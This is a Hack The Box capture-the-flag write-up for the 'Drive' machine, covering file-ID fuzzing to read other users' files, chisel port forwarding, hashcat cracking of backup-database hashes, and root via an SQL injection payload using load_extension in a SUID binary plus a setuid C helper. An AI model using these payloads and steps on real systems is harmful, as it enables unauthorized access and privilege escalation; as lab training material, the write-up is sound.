







# HTB Machine Writeup: Drive
### By: gnos1s

### Machine Difficulty: Hard
### Machine Release Date: <date>
### Operating System: Linux

## Introduction

This machine starts off with a web application with file IDs that lead to a information disclosure. The information disclosure allows you to SSH in as a user on the box. You can then pivot to a internal Gitea instance on port 3000 through port forwarding. The Gitea webapp reveals passwords to some backup files, and you can crack a user's password to get access as another user on the box + user flag. The root involves disassembling a binary leading to SQL injection, something I haven't seen before. Let's jump in!

## Foothold

As usual, we start with Nmap to discover open ports and services:

```
$ nmap -sC -sV -oA nmap/drive 10.10.11.235
# Nmap 7.92 scan initiated Sun Oct 15 09:45:47 2023 as: nmap -sC -sV -oA nmap/drive 10.10.11.235
Nmap scan report for 10.10.11.235
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 15 09:47:21 2023 -- 1 IP address (1 host up) scanned in 94.29 seconds
```

HTTP is running on port 80, redirecting us to drive.htb. Let's add that to our hosts file:

```
echo "10.10.11.235 drive.htb" >> /etc/hosts
```

Port 3000 is also running, but it's filtered meaning we can't access it. Maybe it will be useful later in the exploitation. Taking a look at the webpage, it seems to be a file sharing and saving application (Google Drive ripoff):



We can register an account and log in. There is a dashboard where we can see everyone's files. There is one file made by the admin, named "Welcome to Doodle Grive". We can also upload our own files.


When we view a file, the URL seems to be '/<some kind of id>/getFileDetail'. Maybe playing with this ID will allow us to find other people's files?

```
$ for i in {1..200}; do echo $i; done > numbers
$ ffuf -w numbers -u http://drive.htb/FUZZ/getFileDetail/ -b 'csrftoken=6PpAYhqFkOX7i7I4i7FZP1kc4CxluPjN; sessionid=x69cr491xrb9jirlesp0x70tbkys30l3'  -fc 500

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/getFileDetail/
 :: Wordlist         : FUZZ: /Users/ethanwang/Projects/nmap/machines/Drive/numbers
 :: Header           : Cookie: csrftoken=6PpAYhqFkOX7i7I4i7FZP1kc4CxluPjN; sessionid=x69cr491xrb9jirlesp0x70tbkys30l3
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 331ms]
    * FUZZ: 79

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 327ms]
    * FUZZ: 98

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 329ms]
    * FUZZ: 99

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 312ms]
    * FUZZ: 101

[Status: 200, Size: 5080, Words: 1147, Lines: 172, Duration: 350ms]
    * FUZZ: 100

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 317ms]
    * FUZZ: 112

[Status: 200, Size: 5058, Words: 1061, Lines: 167, Duration: 333ms]
    * FUZZ: 113

:: Progress: [200/200] :: Job [1/1] :: 115 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

(I filtered for status code 500 because that's what the server returns if the file doesn't exist)

We can see a few files, but most of them give status 401. Since we're not the right user we can't read these files. However, there is an interesting "Reserve File" feature on the dashboard page. Clicking on it and intercepting the traffic in Burp, it's sending a request to /[content id]/block:



If we look at the request in Repeater, we can see that it returns the file's details just like the GetFileDetail endpoint does:



We can try reserving other people's files and it works! We can read the content of other people's files!


We find Martin's creds, and we can log in as SSH. We should also examine all of the other files to see if there's any other useful information.





There is a backup database somewhere. Maybe we can access it later. For now, let's just log in with SSH. We can try accessing the backup files that were mentioned, but we don't have the password (and apparently "the backup would be protected with strong password! don't even think to crack it guys! :)")

```
martin@drive:~$ cd /var/www/backups/
martin@drive:/var/www/backups$ ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
martin@drive:/var/www/backups$ 7z x 1_Nov_db_backup.sqlite3.7z

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=C.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 12226 bytes (12 KiB)

Extracting archive: 1_Nov_db_backup.sqlite3.7z
--
Path = 1_Nov_db_backup.sqlite3.7z
Type = 7z
Physical Size = 12226
Headers Size = 146
Method = LZMA2:22 7zAES
Solid = -
Blocks = 1


Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : db.sqlite3

Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
```

## User Flag

We recall from our Nmap scan that port 3000 is open internally. We can port forward that to our machine. (Proxychains + SSH with -D switch would probably be a lot faster, but I'm too used (and addicted) to Chisel lol)

```
$ chisel server --reverse --port 9002
2023/10/28 15:57:04 server: Reverse tunnelling enabled
2023/10/28 15:57:04 server: Fingerprint A2s0vz+9EXb9YMfKduTSD4srWRXT5mikaXJjd6+7Nq0=
2023/10/28 15:57:04 server: Listening on http://0.0.0.0:9002
```

```
martin@drive:~$ ./chisel client 10.10.14.20:9002 R:3000:localhost:3000
2023/10/28 07:57:37 client: Connecting to ws://10.10.14.20:9002
2023/10/28 07:57:38 client: Connected (Latency 116.07783ms)
```

We can now access the internal service. It's running Gitea. We can log in with username 'martin@drive.htb' and the password we obtained before. Once we are logged in we can find the source code of the website. The one interesting thing I can find is a file called db_backup.sh:



There's our password! We can unzip all of the databases. We can try the oldest (September) database first. Cracking Tom's password gives "john boy", but that doesn't get us in as ssh:

```
$ sqlite3 1_sep_db
SQLite version 3.39.5 2022-10-14 20:58:05
Enter ".help" for usage hints.
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93|2022-12-26 06:03:57.371771|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```

```
$ hashcat -m 124 hashes ./rockyou.txt --show
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
```

```
$ ssh tom@10.10.11.235
tom@10.10.11.235's password:
Permission denied, please try again.
tom@10.10.11.235's password:
```

We can try cracking all of the other databases. They give us the passwords "johniscool" and "johnmayer7". The most recent databases uses a special, more secure type of encryption and the password takes me 10 days to crack on Hashcat. That's probably not meant to be crackable.

In the end, "johnmayer7" is the correct password. It's obtained from the November database, the second most recent one.

```
$ hashcat -m 124 hashes ./rockyou.txt --show
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
```

```
$ ssh tom@10.10.11.235
tom@10.10.11.235's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 28 Oct 2023 08:10:52 AM UTC

  System load:           0.02
  Usage of /:            63.3% of 5.07GB
  Memory usage:          27%
  Swap usage:            0%
  Processes:             234
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.235
  IPv6 address for eth0: dead:beef::250:56ff:feb9:179e


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Oct 28 06:27:14 2023 from 10.10.14.20
tom@drive:~$
```

We are now logged in as Tom!

## Root

Immediately after logging onto the server, we can see there is a 'doodleGrive-cli' file. It's executable with the SUID bit set. We can try running it:

```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
```

We need a username (and password) but we don't have creds. Let's try opening it in Ghidra. Immediately, we can see the creds we need in the main function:


We can now log in. The code seems to send us to the main_menu function. When we look into there, we can see 6 functions. The "Activate user account" seems to be interesting. Looking into that function, we see a SQLite query:



This is vulnerable to SQL injection. I can get a RCE using the load_extension() SQLite function. First of all, I'll create a C program with the following code (that reads the root flag):

```c
#include <stdlib.h>
#include <unistd.h>

int main()
{
	setuid(0);
	setgid(0);
	system("cat /root/root.txt > /tmp/a.txt");
}
```

Compile and make the executable file name a little shorter:

```
tom@drive:~$ gcc root.c
tom@drive:~$ mv a.out a
```

Now, we just have to inject a RCE payload. Since the server filters for the '.' and '/' characters, we also need to use the char() function in SQLite to encode it. Here is our final paylaod:

```
"+load_extension(char(46,47,97))+"
```

The '46,47,97' part is './a'. We can run it:

```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'...
Error: ./a.so: undefined symbol: sqlite3_a_init
```

We get an error, but when we try to read /tmp/a.txt it exists. There's the root flag!

```
tom@drive:~$ cat /tmp/a.txt
********************************
```

## Final Thoughts

Overall, I found this box a great machine with a fun exploitation path. It was maybe a little easy for a hard box, but both user and root involved interesting and fun vulnerabilities that I haven't seen on HTB in a while. I struggled on the initial foothold for a bit since there were a lot of possible attack vectors, but everything else was straightforward. 

Personally, root was the most unique and part of the box. It involves SQL injection inside a Linux executable, which is something I haven't seen before. The exploitation isn't hard, but there are some filters you need to bypass. It does take some time to disassmble the binary and understand how to exploit. It was a fun process though, I enjoyed the box the whole way through.

Drive was an amazing box, definitely 5 stars. Hope you enjoyed this writeup, and I'll see you in the next one!